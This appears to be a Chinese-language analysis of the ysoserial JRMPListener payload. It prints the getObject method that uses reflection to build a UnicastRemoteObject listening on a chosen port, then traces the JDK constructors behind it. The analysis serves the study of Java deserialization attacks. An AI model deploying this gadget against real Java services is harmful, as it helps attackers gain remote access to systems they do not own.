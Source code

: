 ### payloads.JRMPListener 生成 payload

生成 Payload Object 的主要在于 JRMPListener 的 getObject 方法

```plain
public UnicastRemoteObject getObject ( final String command ) throws Exception {
    // 端口
    int jrmpPort = Integer.parseInt(command);
    UnicastRemoteObject uro = Reflections.createWithConstructor(ActivationGroupImpl.class, RemoteObject.class, new Class[] {
        RemoteRef.class
    }, new Object[] {
        new UnicastServerRef(jrmpPort)
    });

    Reflections.getField(UnicastRemoteObject.class, "port").set(uro, jrmpPort);
    return uro;
}
```

在程序第二句使用 Reflections.createWithConstructor 方法构造一个 UnicastRemoteObject 对象，传递了四个参数  
观察传入的第四个参数，将端口作为参数 new 一个 UnicastServerRef 对象，进入该类构造函数

```plain
public UnicastServerRef(int var1) {
    // LiveRef 是 UnicastServerRef 的父类 UnicastRef 的嵌套类，它表示一个远程对象的引用
    super(new LiveRef(var1));
    this.forceStubUse = false;
    this.hashToMethod_Map = null;
}
```

进入 LiveRef 的构造函数

```plain
public LiveRef(int var1) {
    this(new ObjID(), var1);
}
```

继续进入 ObjID 的构造函数

```plain
public ObjID() {
    /*
        * If generating random object numbers, create a new UID to
        * ensure uniqueness; otherwise, use a shared UID because
        * sequential object numbers already ensure uniqueness.
        */
    if (useRandomIDs()) {
        // 如果使用随机对象编号，创建一个新的 UID 对象，并将其赋值给 space 字段。UID 是 Java 中的唯一标识符，用于表示全局唯一的标识符
        space = new UID();
        // 生成一个随机的 long 类型的对象编号
        objNum = secureRandom.nextLong();
    } else {
        space = mySpace;
        objNum = nextObjNum.getAndIncrement();
    }
}
```
